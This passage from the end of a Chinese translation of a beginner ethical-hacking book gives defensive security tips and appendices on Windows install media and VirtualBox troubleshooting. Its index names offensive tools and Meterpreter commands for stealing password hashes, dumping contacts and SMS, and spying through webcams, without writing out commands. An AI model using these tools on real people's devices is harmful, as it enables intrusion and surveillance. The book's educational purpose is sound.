当你不使用计算机连接（如`Bluetooth`或`Wi-Fi`）时，请将其关闭。除了节省电池寿命，你还会阻止攻击。移动设备也是如此，在使用完应用程序后也应该关闭它们。如果可能，晚上关闭你的电脑和手机。你会因为多了一份安心而睡得更好——而且每个月还能省下几美元的电费！

## 4\. 点击前务必三思。

如果你不确定电子邮件的来源，请不要打开任何链接或附件。在点击之前，仔细检查网络链接——或者将它们通过`VirusTotal`进行检测。更好的做法是，打开一个新浏览器并搜索真实网站，而不是点击电子邮件中的链接，即使它看起来很合法。

除非你信任来源，否则不要从网上下载或安装软件，即使信任，也要先在`VirusTotal`或你的病毒扫描程序中检查。不要打开可疑的附件，包括 Office 文档、PDF 和视频；验证来源或扫描文件以查找病毒会更安全。不要共享或下载非法文件或盗版软件、音乐或电影。恶意黑客喜欢在这些“免费”文件中隐藏恶意的惊喜。

只从官方应用商店安装移动应用程序。在安装新应用程序之前，阅读应用程序请求的权限列表。游戏或简单的应用程序不应该需要访问你的联系人、通话记录或短信——除了像`Pokémon Go`这样的增强现实或基于位置的应用程序，应用程序不应该需要你的位置。如果应用程序要求的权限超过你认为它应该需要的权限，请删除它并寻找一个使用更少权限就能完成你想要的事情的应用程序。

## 5\. 使用密码管理器并开启双重身份验证。

大多数人的密码可以在几秒钟或几分钟内被破解。八个字符的密码永远不够。使用四个或更多单词的易记密码，并混合字符类型（包括字母、数字、符号，甚至非键盘字符）。不要在多个网站重复使用同一个密码；即使你添加数字或特殊字符，黑客也只需几秒钟就能破解与他们已知密码相似的密码。

不要将密码存储在浏览器中——记住，你只需点击几下就可以泄露这些密码！相反，使用`密码管理器`，如`KeePass`、`Dashlane`、`LastPass`或类似工具。密码管理器会为你所有账户随机生成难以破解的复杂（20 个字符以上）密码，并以加密形式存储它们。你设置一个长密码来访问你的密码管理器，然后让密码管理器自动处理所有其他密码，这样你就不必记住它们了。

密码管理器被认为是安全的，因为它们实际上使用军用级加密来加密你的密码。这与我们在第 1 章中看到的浏览器使用的“通过隐蔽性实现安全”截然不同。密码管理器不是简单地隐藏你的其他密码，而是通过使密码在没有你的长密码的情况下无法恢复来保护它们。打个比方，密码管理器就像把你的房门钥匙放在一个固定在路边的、带有 20 位数字组合锁的两吨防弹保险箱里，而不是把钥匙藏在门垫下面。通过在存储前实际加密你的密码，密码管理器（配合一个好的密码）提供真正的安全性，而不仅仅是隐蔽性。


使用密码管理器只有一个例外：请务必将电子邮件密码单独保存并记住（而不仅仅是将其存储在管理器中），以防万一你忘记了密码管理器的密码短语，需要通过电子邮件重置所有密码。这也能防止有人诱骗你泄露密码管理器的密码短语——你仍然可以通过将重置链接发送到你的电子邮件来重置其他密码。最终，你只需要记住两个密码短语——一个用于电子邮件，一个用于密码管理器——你仍然可以为每个账户拥有独特且几乎无法破解的密码。

为了在攻击者能够窃取或猜中你的某个密码时增加保护，请为你最重要的账户开启双重身份验证。双重身份验证通过要求除密码之外的额外验证来访问你最敏感的账户，从而增加一层安全性。通常，额外的验证步骤涉及将安全代码发送到你的手机。

## 6\. 保持软件更新。

为你的操作系统开启自动更新，并定期更新你的浏览器和其他应用程序。最好每月至少运行一次更新。选择每月的某一天，比如 1 号或 30 号，并在日历上标记，以更新你的台式机/笔记本电脑和所有应用程序。把它当作像付账单一样必须完成的任务。当有可用更新时，请尽快更新你的手机、智能电视和其他设备。

安全补丁和软件更新是攻击者寻找可在旧版本中利用的漏洞的第一个地方。一旦攻击者发现某个问题已被修复，任何没有下载该修复程序的人都将成为待宰的羔羊。这就是为什么 Kali 中 2000 多个漏洞利用中的大多数针对旧版本软件。保持所有软件更新将消除互联网上超过 99% 的已知攻击。

## 7\. 保护你最敏感的数据。

不要在公共电脑或不可信网络上登录敏感账户。相反，只在你最受保护的电脑上进行敏感工作——该电脑应放置在安全位置，并安装有良好的防病毒程序、防火墙、更新的软件、强大的账户控制以及极少的安装程序。在家中使用复杂密码和安全 Wi-Fi，并至少每月检查一次路由器上的未知设备。

考虑将你最私密的数据（如信用卡信息、税务表格和健康记录）完全不放在电脑上。否则，对于你希望尽可能最大程度保护的电脑上的敏感信息，请考虑加密文件，或加密用于进行敏感工作的电脑的整个硬盘。在 Windows 专业版中，你可以使用 BitLocker 加密整个硬盘，或者通过右键单击并选择 `Advanced . . .`▶`Encrypt contents to secure data` 来加密单个文件和文件夹。在 macOS 上，你可以通过 `System Preferences`▶`Security & Privacy`▶`FileVault` 使用 FileVault 加密硬盘。我不会在此处介绍完整步骤，但加密程序应该会指导你，如果你卡住了，快速的网络搜索可以提供帮助。像 VeraCrypt 这样的开源加密软件包也允许你在几个步骤内使用密码或密码短语加密文件、文件夹或整个驱动器。你可以在 [`www.veracrypt.fr/`](https://www.veracrypt.fr/) 下载 VeraCrypt。

将加密密码存储在密码管理器中是可以的，以防忘记它。对于偷走你硬盘或笔记本电脑的小偷，或者试图在锁定电脑并索要赎金之前从你的电脑窃取数据的勒索软件攻击者来说，你的文件仍然完全无用。

## 8\. 明智地使用安全软件。

保持防火墙开启，并定期更新防病毒软件。有几种免费和低成本的防病毒工具可供使用。研究哪些工具能拦截最多的恶意软件，然后每周更新你的防病毒工具，或开启自动更新，以使其能最大程度地保护你。防火墙和防病毒软件只有在开启并保持更新时才能保护你。

考虑在旅行或使用公共 Wi-Fi 时使用 VPN 应用程序来保护你的手机或笔记本电脑。VPN（即 `virtual private network`）在你使用互联网时隐藏你的身份并加密你的数据，因此任何监视网络的人都无法看到你的信息。使用 VPN，你将比大多数同龄人更安全，并能免受大多数在线攻击的侵害。

## 9\. 备份你想保留的数据。

防止数据丢失（无论是由于勒索软件、盗窃、破坏还是意外删除）的最佳防御是经常备份。每周或每月（取决于如果你丢失一个月的数据会有多么焦虑）将文件备份到外部硬盘。

最好将备份驱动器放在与电脑不同的位置，以避免同时丢失两者。或者省去麻烦，每月花几美元使用云备份服务。在网上搜索一个评分很高且具有你想要和需要的功能的服务。

## 10\. 与你的家人交谈。

沟通，沟通，再沟通。确保你的孩子，以及你的父母和年长的亲戚，了解你在这本书中学会防御的各种威胁和攻击。网络罪犯和掠食者正在盯着他们的账户和身份，就像盯着你的一样。鼓励他们在回复可疑或威胁性的电子邮件、电话或短信之前停下来思考。如果他们不确定该怎么办，你甚至可以主动成为他们的“现实检查”。有时，仅仅讨论一个网络优惠或威胁就能帮助目标对象看出这是一个骗局。

家长，为孩子的屏幕时间设定适当的限制（基于他们的年龄），讨论网络和现实世界的威胁，并 `listen` 你的孩子。了解他们的朋友是谁，以及他们在网上与谁交谈。考虑相互追踪彼此的设备——允许你的孩子追踪你的手机，反之亦然。确保他们了解网上过度分享的危险。最重要的是，鼓励他们如果不确定该怎么办，或者如果他们曾经经历过网络欺凌或骚扰，就与你交谈。

## 要点

你在理解网络威胁方面已经取得了长足进步。你在自己构建的安全虚拟环境中进行了真实的黑客攻击。你还学会了如何保护自己和你关心的人免受计算机攻击。

你还学到了 21 世纪一些最热门的工作技能。网络安全领域每年有数十万个职位空缺，你现在拥有保护你的设备和网络免受恶意黑客使用的工具攻击的真实经验。

善用这些知识，保持安全，并享受黑客攻击和练习你的新网络安全技能的乐趣！

# A  

创建 Windows 10 安装光盘或 USB 闪存驱动器


道德黑客通常帮助恢复文件或重置密码，就像我们在第 2 章的黏性键攻击中所做的那样。为此，你可以使用可启动的恢复光盘或 USB 驱动器。这些通常用于在 Windows 损坏时重新安装 Windows，以便你可以访问电脑上的文件。

要创建可启动光盘或 USB 驱动器，你可以直接从 Microsoft 下载免费的 `evaluation` 版 Windows 10，然后将其刻录或安装到 DVD 或 USB 闪存驱动器上。你需要一个能容纳至少 8GB 的光盘或驱动器。

## 下载 Windows 10

1.  在浏览器中访问 [`www.microsoft.com/evalcenter/`](https://www.microsoft.com/evalcenter/)（有时 Microsoft 会更改其网站，因此如果此 URL 不起作用，请搜索“Microsoft Evaluation Center”以找到新页面）。


2. 单击 `Get Started` 以查找几类 Microsoft 产品的评估副本，例如 Windows、Windows Server 和 Office。

3. 单击 `Windows`▶`Windows 10 Enterprise`（或另一款较新的 Windows 操作系统）以转到 Windows 10 Enterprise Evaluations 屏幕，如 图 A-1 所示。


Figure A-1: The Windows 10 Enterprise Evaluations screen

4. 在“开始评估”下，将 `ISO - Enterprise` 选为评估文件类型，然后单击 `Continue`。

5. 该网站会要求你填写一份关于你自己的表格。如果你未满 18 岁，在输入任何个人信息前请先咨询成年人。提交信息后，你应该会看到类似 图 A-2 的下载屏幕。


Figure A-2: Choose a platform and language to download a free, legal evaluation copy of Windows.

6. 选择 `64 bit`，选择你的语言，然后单击 `Download`。

Windows 10 安装下载是一个 `ISO` 文件，通常称为 `image`，即一个包含制作 CD 或 DVD（如我们的软件安装光盘）所需所有文件的单一文件。ISO 文件大小为 4GB 或更大，因此请尝试在网络连接较快的地方下载它。

### 将 Windows 10 刻录到 DVD

要将 Windows 10 的副本刻录到 DVD，你需要一台配备 DVD 刻录机驱动器的计算机。

1. 对于 Windows，右键单击 ISO 文件并选择 `Burn disc image`。对于 Mac，在 Finder 中选择 ISO 文件，然后转到 `File`▶`Burn <disc>`。

2. 将空白 DVD 插入驱动器，几分钟后，你应该就能得到一张可启动的 Windows 10 安装光盘。

### 将 Windows 10 安装到 USB 闪存驱动器

如果你没有 DVD 刻录机驱动器，可以使用 Microsoft 的 Windows Media Creation Tool 将 Windows 10 的副本安装到 USB 闪存驱动器上。

1. 转到 [`www.microsoft.com/en-us/software-download/windows10/`](https://www.microsoft.com/en-us/software-download/windows10/)，如 图 A-3 所示。（同样，Microsoft 经常更改其 URL、网站名称甚至工具名称，因此如果此 URL 不起作用，请搜索“Windows Media Creation Tool”，你应该能找到正确的链接。）


Figure A-3: Download the Windows Media Creation Tool from Microsoft.

2. 下载并安装适用于你首选语言的 Windows Media Creation Tool。

3. 运行该工具时，选择 `Create installation media (USB flash drive, DVD, or ISO file)`，然后单击 `Next`。


Figure A-4: Choose `Create installation media`.

4. 保留 Windows 10 语言和版本的默认选择，然后单击 `Next`。

5. 将 `USB flash drive` 选为媒体类型。


Figure A-5: Choose `USB flash drive`, insert an empty USB drive, then click `Next`.

6. 插入至少有 8GB 可用空间的空白 USB 驱动器，选择该空白 USB 驱动器，然后单击 `Next`。

这需要几分钟时间，但当工具完成后，你将拥有一个可启动的 USB 驱动器，其中包含完整的 Windows 10 安装，可用于 Sticky Keys 攻击或一般的计算机故障排除和修复。

# B

排查 VirtualBox 故障


第一次在 VirtualBox 中运行虚拟机时，由于 Mac 或 PC 上的设置不同，你可能会遇到错误。使用本附录排查 VirtualBox 设置。如果你尝试了这些步骤中列出的所有内容但仍有问题，请访问本书网站 [`www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/) 获取最新帮助，或在网上搜索你遇到的特定错误。设置虚拟黑客实验室可能需要几次尝试，但这很值得！

## 排查 Mac 上的 VirtualBox 故障

某些 Mac 在首次加载 Kali VM 时可能会显示错误。尝试按照以下步骤修复错误：

1. 确保已正确安装 VirtualBox Extension Pack，如第 3 章中所述。

2. 转到 `System Preferences`▶`Security & Privacy` 并单击 `General` 选项卡。

3. 如果在底部附近看到一条消息，指出 Oracle 软件被阻止加载，请单击 `Allow`。

4. 重新启动 VirtualBox，你的 Kali VM 应该能正确打开。

## 排查 Windows 上的 VirtualBox 故障

如果 VirtualBox 在 Windows 上无法正常运行，你可能需要执行以下操作：

1. 在控制面板中关闭 Hyper-V 选项。

2. 在计算机的 BIOS 或 UEFI 设置中打开虚拟化。

我们将在下一部分更详细地介绍这两个步骤。完成这两个步骤后，重新启动 VirtualBox 并重新打开 Kali VM。

### 关闭 Hyper-V 选项

某些版本的 Windows 默认启用了 Hyper-V（Microsoft 自身的虚拟化软件）。要改用 VirtualBox，你需要关闭 Hyper-V。

1. 转到 `Control Panel`▶`Programs`▶`Programs and Features`▶`Turn Windows features on or off`。

2. 在设置列表中，取消选中所有名称中包含 Hyper-V 或 Hypervisor Platform 的复选框，如 图 B-1 所示。


Figure B-1: Turning off all Hyper-V and Windows Hypervisor Platform options

3. 关闭 Hyper-V 和 Hypervisor Platform 设置后，在再次运行 VirtualBox 之前，你需要重新启动计算机。

### 在 BIOS/UEFI 设置中打开虚拟化

如果你已关闭 Hyper-V 但仍在使用 VirtualBox 时遇到问题，你可能需要启用虚拟化。要打开虚拟化支持，你需要重新启动进入计算机的 BIOS 或 UEFI，即 PC 的基本硬件设置。

1. 在 Windows 10 中，转到 `Settings`▶`Update & Security`▶`Recovery`▶`Advanced startup`▶`Restart now`，如 图 B-2 所示。你的计算机应重新启动进入高级启动模式。


Figure B-2: Entering BIOS from Windows 10

2. 从蓝色启动菜单中，选择 `Troubleshoot` 并按 `ENTER`。然后选择 `Advanced options` 并再次按 `ENTER`，如 图 B-3 所示。

3. 高级选项菜单屏幕包含用于排查和修复计算机的有用工具，包括系统还原和启动修复。在此菜单的右下角，选择 `UEFI Firmware Settings` 或 `Startup Settings` 选项，如 图 B-4 所示。


Figure B-3: Accessing the Advanced options menu


Figure B-4: Accessing the UEFI Firmware Settings or Startup Settings

4. 按 `ENTER` 然后单击 `Restart`。如果你的计算机使用较新的 UEFI 固件设置，重新启动时你应该会看到 UEFI 设置菜单。如果你的计算机使用较旧的 BIOS 启动设置，重新启动时可能需要按下特殊键才能进入 BIOS。


5. 一旦进入启动 BIOS 或 UEFI 设置，请找到虚拟化设置并将其打开。你可能需要使用方向键、空格键或 `ENTER` 键来导航外观较为老旧的菜单。每个品牌的 PC 的 BIOS 略有不同，因此只需查找类似于“虚拟化技术”、“VT-x”或“VT-d”的菜单选项即可。这些选项通常位于 Advanced、System 或 CPU 设置下。

6. 启用或打开虚拟化，保存更改，然后退出以重新启动进入 Windows。

7. 重新启动 VirtualBox 并再次打开 Kali VM。

## One Last Issue: Certain Antivirus Programs

如果尝试了刚才讨论的所有虚拟化设置，并且下载并重新安装了正确的 VirtualBox 和 VM 文件后，VM 仍然无法启动，那么你的计算机杀毒软件可能正在阻止 VirtualBox。在线搜索是否有其他人遇到相同问题（我的学生曾遇到 WebRoot SecureAnywhere 以及某些版本的 Avast 和 Symantec 的问题），因为你可能能够为 VirtualBox 添加排除项，以便杀毒软件不会阻止它。作为最后的手段，尝试使用安装了不同杀毒应用程序的计算机或更换杀毒程序。

# INDEX

请注意，索引链接到每个术语的大致位置。

*斜体页码表示术语的定义。*

**A**

`-f` (format) option, 56

`-h` (help) option, 112

`-i` (interact) option, 61

`-j` option, 58

`-l` (log) option, 131

`-o` (output) option, 56

`-v` (view) option, 65

`*.7z` files, 106

`*.apk` files, 108

`*.exe` (executable) files, 56

`<input>` tag, 5

`<script>` tag, 96

`\` operator, 56, 103

`.\` operator, 15

administrator-level access. *See also* Mac root hack; superuser privileges; system-level access, 13–15, 59, 76–78

AND operator, *33*

Android apps

defenses against malicious, 122

deleting, 119

distributing, 108

hiding icons hack, 121

permissions, 110–111

Android folders, 117

Android mobile device attack project, 106–121

creating Android VM, 106–108

hacking contacts, 114–116

hacking files, 117–120

hacking settings, 120

hiding app icons, 121

infecting Android VM, 109–111

launching trojan, 108–109

Meterpreter commands, 111–112

running apps, 113–114

spying through cameras, 116–117

Android VM, 106–108

antivirus software. *See also* VirusTotal, 70, 122, 139, 153

APK files, 108

`app_list` command, 113

`app_run` command, 113

`app_uninstall` command, 114

`apt` command, 29

Archiver, 106

attackers *See* hacking and hackers

authorizations *See* permissions

**B**

backdoors, *65*

`background` command, 77

backslash operator, 55\-56, 103

backups, 139

Bash Bunny, 19

BIOS (Basic Input/Output System), *11*

booting from, 11–12

enabling virtualization, 151–153

passwords, *20*

BitLocker, 139

black hat hacking, xvi

Bluetooth devices, 132

bootable discs/drives, 19, 143–147

browsers. *See also* Chrome browser; Firefox browser, 2, 6–8, 137

brute-force attacks, *80*

burning to DVDs, 145

**C**

cameras

smartphone hijacking, 116–117

webcam spying, 68–70

CAN bus, *127*

CAN IDs, 134

CAN packets

recording, 131

replaying, 132

sending new commands, 132–133

viewing, 129–131

`can-utils` tools, 126

CANBus Control Panel, 128–129, 132

`candump` tool, 131

`canplayer` tool, 132

`cansend` tool, 133

`cansniffer` tool, 129–131

*Car Hacker's Handbook* (Smith), 134

car-hacking project, 126–134

driving virtual car, 128

hacking real cars, 134

hacking virtual car, 129–134

installing ICSim, 126

setting up dashboard, 127–128

`cat` command, 65, 116, 119, 120

`cd` (change directory) command, 13, 117

`chmod` command, 119

Chrome browser

Incognito Mode, 7

inspect tool, 2–6

in trojan app installation, 110

clones, *47*

code injection attacks, *96*

command prompt program, *10*, 59

computers. *See also* physical access hacks; Virtual Machines (VMs)

in Internet of Things, 125–126

using public, 6–7

continue (`\`) operator, 56

copy (`cp`) Linux command, 57

`copy` (Windows) command, 13

Cortana voice assistant, 19

`cp` (copy) Linux command, 57

cracking passwords, *73*

credential harvesting, *47*, 49–50

cross-site scripting (XSS) attacks, 96–100

cryptographic hash function, *74*

CTRL-C (CONTROL-C) command, 79, 119

CTRL-F (CONTROL-F) command, 131

cyberstalking/cyberbullying, 41, 140

**D**

Darn Vulnerable Web App (DVWA)

in cross-site scripting attacks, 96–100

launching, 94–95


# 索引

## D

### 保护网页安全
103–104

### 数据

### 备份
139

### 泄露
82, 91

### 敏感
136, 137, 138

### 用户输入验证与清理
103–104

### `data` 文件夹
117

### 数据值

#### 十六进制
130

#### 清理与验证
103–104

### 数据库

#### Android
118

#### 在 SQL 注入攻击中
100–103

#### 在存储型跨站脚本攻击中
97–100

#### 结构
100

### `databases` (Android) 文件夹
118

### Delpy, Benjamin
78

### 字典攻击
80, 82–84

### `dir` (目录) 命令
13

### Google 搜索技巧
38

### `download` 命令
64, 120

### 下载安全
137

### `dump_calllog`
115

### `dump_contacts`
115

### `dump_sms`
115

### 垃圾箱搜索
85

### DVWA
参见 Darn Vulnerable Web App (DVWA)

## E

### EFI 密码
20

### 电子邮件账户和密码
7, 138

### 电子邮件钓鱼
50–52, 137

### 加密

#### 文件和文件夹
20, 139

#### 密码
74, 137

### Equifax 数据泄露
91

### 转义字符
103

### 道德黑客
xvi

#### 机会
38–39, 126, 140

#### 渗透测试
44

#### 与远程黑客攻击的区别
54

#### 技能与行为
xvi–xvii, 10, 52, 104, 134

#### 工具
27

### 评估软件
143

#### 可执行文件
56

### Exif 图像元数据
39, 40

### `exit` 命令
65

### 漏洞利用
54, 58

### `ext:` 运算符
33, 34, 36

## F

### 文件扩展名
33

### 文件
另见 文件夹

#### 可执行文件
56

#### 黑客攻击 Android 虚拟机
117–120

#### 黑客攻击 Windows 虚拟机
63–65

#### 恶意文件
70, 137

#### 权限
119

#### 保护
138–139

### FileVault
139

### Firefox 浏览器
隐私窗口，7

### 防火墙
59, 70, 139

### 固件密码
20

### fodhelper 程序
77–78

### 文件夹

#### Android
117–118

#### Web
56

#### Windows
13

### format (`-f`) 选项
56

### 表单

#### 字段验证与清理
103–104

#### 登录页面克隆
47–48

## G

### `getsystem` 命令
78

### `getuid` 命令
78

### GHDB (Google Hacking Database)
37–38

### 全球定位系统 (GPS) 坐标
39, 40

### Gmail 应用删除示例
119

### Google dorks
38

### Google hacking
31, 33–38

### Google Hacking Database (GHDB)
37–38

### Google Play Protect
110, 122

### Google 搜索

#### 运算符
33, 37

#### 查询数据库
37–38

#### 作为侦察手段
32–33

#### 针对用户名和密码
34–39

### GPS (全球定位系统) 坐标
39, 40

### 客户机
21

### `gunzip` 命令
82

## H

### 黑客攻击与黑客
另见 道德黑客，xv, xvi

#### 十条避免黑客攻击的建议
135–141

#### 白帽 vs. 黑帽
xvi–xvii

### 加固
xvi

### 哈希函数 (加密)
74

### 哈希值
另见 密码哈希值

### Hashes.com 数据库
80–81

### `help` 命令
61

### 十六进制数制
130

### `hide_app_icon` 命令
121

### 主机密钥
23

### 主机机器
21

### 主机专用网络
26

### HTML
另见 超文本标记语言 (HTML)

### `htmlspecialchars` 命令
104

### Hyper-V
150–151

### 超链接
另见 链接

### 超文本标记语言 (HTML)

#### 在跨站脚本示例中
96–100

#### 密码安全
5

## I

### ICSim
另见 仪表集群模拟器 (ICSim)

### 图像元数据
40

### 镜像 (操作系统)
145

### 隐身模式
7

### `<input>` 标签
5

### 输入验证与清理
103–104

### 检查工具
2–6

### 仪表集群模拟器 (ICSim)
126

#### 下载与安装
126

#### 运行
129–131, 132

### 交互 (`-i`) 选项
61

### 物联网 (IoT)
125–126, 132

### 互联网协议 (IP) 地址
26

### `intext:` 运算符
38

### IoT (物联网)
125–126, 132

### `ip a` 命令
76

### `ip addr` 命令
27, 54, 76

### `ip config` 命令
28

### IP (互联网协议) 地址
26

### `is_numeric` 命令
104

### ISO 文件
145

## J

### JavaScript 跨站脚本示例
96–100

### Jeffrey's Image Metadata Viewer
40

### John the Ripper
81–84

### Johnny (GUI)
81–84

## K

### Kali Linux 虚拟机

#### 连接到虚拟网络
27

#### 创建
22–23

#### 运行虚拟机
23–25

#### 在其中输入特殊字符
88


# L

## links

- copying, 35
- suspicious, 51, 52, 122

Linux. *另请参阅* Kali Linux VM

typing special characters in, 88

`list (`ls`)` command, 117, 131

location data, *39*, 40

lock screen settings, 7

logging (`-l`) option, 131

## login pages

- cloning, 47–48
- security, 48–49, 52

Long, Johnny, 37

low-hanging fruit concept, *70–71*

`ls` (list) command, 117, 131

`lsa_dump_sam` command, 78

# M

Mac computers. *另请参阅* macOS

rebooting, 18

Mac Root hack, 17–19

## macOS

- encryption, 139
- typing special characters in, 88
- VirtualBox troubleshooting, 149–150

MainActivity app, 111, 113, 121

malware. *另请参阅* trojans; viruses, 33, 34, *53*, 70–71

Marriott data breach, 91

mask attacks, *80*, 85–87

masks, *86*

Metasploit Framework. *另请参阅* Meterpreter shell

about, 54

Mimikatz module, 78–79

msfconsole, 54–58

viewing sessions, 61

Metasploitable web server, 92–93

## Meterpreter shell

- adding exclusions for, 64
- Android payloads, 108–109
- commands, 61–62, 112
- file hacking, 63–65
- logging keystrokes, 67–68
- restarting sessions, 113
- viewing computer screens, 65–67
- webcam spying, 68–70
- Windows payloads, 58, 61, 75–76

Microsoft Edge Developer website, 25

Mimikatz tools, 78–79

`mkdir` (make directory) command, 56

mobile app safety, 110–111, 114, 122, 137

mobile devices. *另请参阅* Android apps; Android mobile device attack project

- camera hijacking, 116–117
- defenses, 122
- location data, 40
- typing special characters in, 88

Mouse Integration, 108

Mousepad Text Editor, 79

msfconsole, 54–58

`msfvenom` tool, 55–56, 108

multi-factor authentication, 8, 88, 138

multi/handler exploit, 58

`mysql_real_escape_string` function, 103

# N

`net` command, 14–15, 75

`netsh` tool, 59

networks. *另请参阅* PublicNAT

- safety practices, 138
- virtual, *26*

NTLM (New Technology LAN Manager) format, *79*, 83–84

# O

Offensive Security, 37

on-board diagnostic, version two (OBD-II) port, *134*

Open Sesame! attack, 19

OpenGarages, 126

operating systems. *另请参阅* Linux; macOS; Windows 10

- updating, 29–30, 70, 138

OR operator, *33*, 100–101

output (`-o`) option, 56

# P

p7zip-full, 106

packet sniffers, *129*

packets, *129*

parents and kids communications, 140

passphrases, 7, 75, 88, 137

`passwd` command, 18

password cracking project, 80–87, 89

- dictionary attacks, 82–84
- installing Johnny GUI, 81–82
- mask attacks, 85–87
- online password databases, 80–81
- password hash solution, 89
- password databases and lists, 35–39, 80–81
- password hashes, *74*, 79, 80–81

password managers, 8, 88, 137–138

password stealing project, 74–80

- creating Windows users, 75
- hacking into Windows VM, 75–76
- obtaining administrator-level access, 76–78
- stealing password hashes, 78–80

passwords. *另请参阅* password cracking project; password stealing project

- firmware, *20*
- harvesting, 47, 100–102
- Mac user, 18
- reporting hacked, 38–39
- resets, 15
- revealing obscured, 2–7
- safety practices, 6–8, 85, 88–89, 137–138
- VM defaults, 23, 26, 93
- vulnerable, 73

payloads, *58*, 108–109

penetration testing (pentesting), *44*

permissions. *另请参阅* administrator-level access

- file, 119
- mobile app installs, 110–111, 122
- from owners, xvi–xvii


网络钓鱼。*另请参见* 网络钓鱼网站项目、*32*、*43*、44、51–52、137

电话回连，57–58、60

照片位置数据，40

PHP 验证和净化函数，103–104

物理访问攻击。*另请参见* Mac 根权限攻击；黏滞键攻击、*9–10*、19–20

物理安全技术，136

Play Protect 安全，110–111

plist、*18*

信息隐私，136、137、138

隐私窗口，7

权限提升、*77*

PublicNAT

将 VM 连接到，27、28、55

创建，26

`pwd` (print working directory) 命令，61

**Q**

查询、*100*

Quest Diagnostics 数据泄露，91

**R**

勒索软件、*34*

RATs (远程访问木马)，*54*

`reboot` 命令，18

重启

Mac 计算机，18

移动设备，122

侦察 (recon)，*31*

高级 Google 技术，33–38

合乎道德的，38–39

自我搜索，32–33

社交媒体，39–40

恢复技术。*另请参见* 黏滞键攻击

Mac 根权限攻击，17–19

密码，2–7

Windows 10 镜像，143–147

反射型 XSS 攻击，96–97

远程访问木马 (RATs)，*54*

远程黑客项目，53–70

方法，53–54

创建木马，54–56

部署木马，56–58

黑客文件，63–65

感染 Windows VM，58–60

记录按键，67–68

通过摄像头监视，68–70

启动会话，61

查看计算机屏幕，65–67

重放攻击，*132*

报告

网络犯罪，136

被盗密码，38–39

`rm` 命令，119

RockYou 字典，82、83–84

root 用户访问，*17*

Rubber Ducky，19

**S**

Safari 隐私窗口，7

屏幕显示缩放，24、93

屏幕保护程序设置，7

`screenshare` 命令，66–67

`screenshot` 命令，65

`<script>` 标签，96

搜索运算符，*33*

搜索查询，*37*

搜索结果历史记录，117–118、119–120

搜索 *另见* Google 搜索

安全通过隐蔽，*1–2*

`SELECT` 查询，100

`service` 命令，57

会话，*60*、61、77–78、113

`sessions` 命令，61

SET *另见* 社交工具包 (SET)

`set_audio_mode` 命令，120

7-Zip，106

`shell` 命令，64、117

单用户模式，*17*

`site:` 运算符、*33*、36–37

Site Cloner，47

智能手机 *另见* Android 移动设备攻击项目；移动设备

Smith, Craig (zombieCraig)，126、134

社会工程学，*43*、44、136

社交工具包 (SET)，*44*

克隆登录页面，47–48

凭据收集，49–50

设置，44–47

社交媒体共享，39–41、136

软件。*另请参见* 移动应用

评估版，*143*

安全实践，70–71、137、138

源代码 (网页)，*2*、103–104

SQL 注入 (SQLi) 攻击，100–103

黏滞键功能，10

黏滞键攻击，10–17

从安装光盘启动，10–12

获取管理员级访问权限，13–15

以管理员身份登录，15–17

存储型 XSS 攻击，97–100

`stripslashes` 命令，103–104

结构化查询语言 (SQL)。*另请参见* SQL 注入攻击，100–102

`su` (超级用户访问) 命令，118

`sudo` (超级用户执行) 命令，29

超级用户权限，29、118

`sysinfo` 命令，61

系统级访问 *另见* 管理员级访问；Mac 根权限攻击；超级用户权限

SystemRescueCD，19

**T**

时间戳，*130*

Trinity Rescue Kit，19

木马。*另请参见* 恶意软件；远程黑客项目；病毒，*54*

后门，*65*

创建，54–58

下载和运行，59–60

在 Android 应用中安装，108–111

电话回连，57–58、60

双因素身份验证，8、88、138

**U**

Ubertooth One 蓝牙无线嗅探器，132

UEFI 固件设置，152–153

Ultimate Boot CD，19

Unarchiver 应用，25

Unicode 字符代码，88

统一资源标识符 (URI) 字符串，*113*

`union` 命令，102

`upload` 命令，63

URL *另见* 链接

USB 驱动器

将镜像下载到，145–147

物理攻击，19

用户帐户

访问 Mac，18

在 Windows VM 中创建，75


# V

VCAN (virtual CAN) bus 网络，127

VeraCrypt，139

view (`-v`) 选项，65

虚拟机 (VMs)。另请参阅 Android VM；Kali Linux VM；Metasploitable web 服务器；Windows 10 VM，21

虚拟网络。另请参阅 PublicNAT，26

虚拟专用网络 (VPNs)，139

VirtualBox

下载和设置，22

故障排除，149–153

虚拟网络创建，26–29

虚拟化软件，21

病毒。另请参阅 恶意软件；木马

预防措施，58，70–71

Windows Defender 保护，59，60

VirusTotal，35–36，81，137

VMs 参见 虚拟机 (VMs)

VPNs (虚拟专用网络)，139

# W

`wakelock` 命令，112

Web 应用程序安全，103–104

Web 文件夹，56

Web 黑客项目，92–104

跨站点脚本攻击，96–100

Darn Vulnerable Web App，94–95

Metasploitable VM 设置，92–93

保护 Web 应用程序，103–104

SQL 注入攻击，100–103

Web 链接 参见 链接

`webcam_list` 命令，69，116

`webcam_stream` 命令，69，116

Webcam 间谍活动，68–70

网站钓鱼项目，44–51

克隆登录页面，47–48

创建电子邮件，50–51

凭据收集，48–50

设置 VM，44–47

白帽黑客 参见 道德黑客

Wi-Fi 安全实践，136，138

通配符，85–86，87

Windows 10

从安装光盘启动，10–12

刻录到 DVD，145

评估版下载，144–145

安装到 USB 闪存驱动器，145–147

Windows 10 VM

连接到虚拟网络，28–29

创建，25–26

在其中创建用户，75

在其中禁用安全性，59，60

更新操作系统，30

VirtualBox 故障排除，150–153

Windows 计算机

加密，20，139

粘滞键功能，10

在其中输入特殊字符，88

漏洞，77–78

Windows Defender，59，60，64，68

Windows 文件夹，13

`Windows_hashes.txt` 文件，79–80

Windows 媒体创建工具，145–147

字典攻击，82–84

# X

XSS (跨站点脚本) 攻击，96–100

# Y

Yahoo! 数据泄露，91

YouTube 搜索历史记录示例，119–120

# Z

ZIP 文件实用程序，25，106

